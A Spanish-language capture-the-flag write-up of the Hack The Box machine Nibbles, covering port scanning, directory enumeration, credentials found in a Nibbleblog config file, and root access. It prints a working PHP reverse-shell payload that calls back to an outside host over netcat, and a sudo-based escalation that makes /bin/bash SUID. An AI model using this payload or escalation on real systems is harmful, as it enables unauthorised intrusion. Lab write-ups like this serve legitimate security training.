Fase de reconocimiento
Primero procedo a hacer un análisis de puertos con nmap hacia el servidor:
nmap -sS -p- --open 10.129.21.219 -Pn -oN Ports- -sS: Especifico el uso de un escaneo SYN (half-open)
- -p-: Indico que quiero escanear todo el rango de puertos
- --open: Esto me filtra solo por los puertos abiertos
- -Pn: Esto hace que no haga ping por lo que acelera el escaneo
- -oN Ports: Guarda el resultado del escaneo en un archivo llamado Ports, y de esta forma se puede revisar el resultado posteriormente

El resultado del escaneo muestra que solo el puerto 80 y el 22 están abiertos, por lo que procedo a hacer un escaneo más profundo en estos puertos:
nmap -sCV -p 80,22 10.129.21.219 -oN Versions- -sCV: Especifico que quiero hacer un escaneo de scripts básicos de Nmap (C) y de versiones (V)
- -p 80,22: Indico que quiero escanear solo los puertos 80 y 22
- -oN Versions: Guarda el resultado del escaneo en un archivo llamado Versions, y de esta forma se puede revisar el resultado posteriormente

El resultado del escaneo muestra que el puerto 80 tiene un servidor Apache 2.4.18 y el puerto 22 tiene un servicio SSH, por lo que procedo a revisar el puerto 80 para hacer un reconocimiento más detallado de la página web.
Dentro de la página web, no se ve nada más que un texto dde Hello world!

Si revisamos el código fuente de la página web, encontramos un comentario que nos da una pista sobre la enumeración de directorios.

Enumeración de directorios
Para la enumeración de directorios utilizo la herramienta gobuster con el siguiente comando:
gobuster dir -u http://10.129.57.156 -w /usr/share/wordlists/dirb/common.txt- dir: Indica que se va a realizar una enumeración de directorios
- -u: Especifica la URL base
- -w: Especifica la ruta del archivo de wordlist que se va a usar

El resultado del escaneo muestra que hay varios directorios los cuales se pueden acceder y al acceder a ellos se puede ver una vulnerabilidad de directory listing.

Dentro de esos directorios se puede encontrar información interesante como la versión de Nibbleblog en el readme, credenciales en el archivo de configuración y enumeración de plugins



Análisis de los datos obtenidos
Investigando primero sobre la versión que está siendo utilizada de Nibbleblog, me comenta que es vulnerable a Arbitrary File Upload por una extensión la cual ya confirmamos existe (My Image), pero para explotar esta vulnerabilidad necesitamos tener acceso a la sección de administración, por lo que procedo a revisar el archivo de configuración para obtener las credenciales de acceso.
Una vez usamos las credenciales, podemos acceder al panel de administración y explotar la vulnerabilidad.
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 4444 >/tmp/f"); ?>
Una vez subimos el exploit, debemos de establecer una escucha con nc y luego ir a buscar el archivo ejecutable para activarlo
nc -lvnp 4444

Sanitización y enumeración interna
Una vez obtengo una shell, procedo a iniciar el proceso de sanitización para poder operar de una manera más cómoda.
script /dev/null -c bash
stty raw -echo; fg
resetLuego procedo a reparar las dimensiones de la terminal y exportar term para usar atajos de teclado.
export TERM=xterm
stty rows 51 columns 186Una vez ya todo está configurado, procedo a enumerar el sistema para buscar oportunidades de escalar privilegios.
Primero ejecuto el comando id para saber si pertenezco a algún grupo privilegiado.
Al no encontrar nada sospechoso, continúo con la enumeración. probando un sudo -l y ahi logro ver que puedo ejecutar un programa como usuario root.

Si listamos el home del usuario nibbler podemos ver que dicho archivo se encuentra dentro pero en formato .zip, por lo que debemos de extraerlo primero para poder acceder a él.

Una vez extraemos el archivo podemos modificar el contenido del mismo para alterar su comportamiento y obtener acceso como root.
En este caso yo he decidido modificar los permisos del binario /bin/bash para hacer que tenga permisos SUID y poder ejecutar comandos como root.

Una vez tenemos el archivo modificado, procedemos a ejecutarlo para hacer que se ejecute como root y luego comprobar los cambios.

Con esto, he completado el writeup de la máquina Nibbles de Hack The Box, demostrando cómo identificar y explotar la vulnerabilidad para obtener acceso no autorizado al sistema, y luego escalar privilegios aprovechando el comando sudo para ejecutar comandos como root.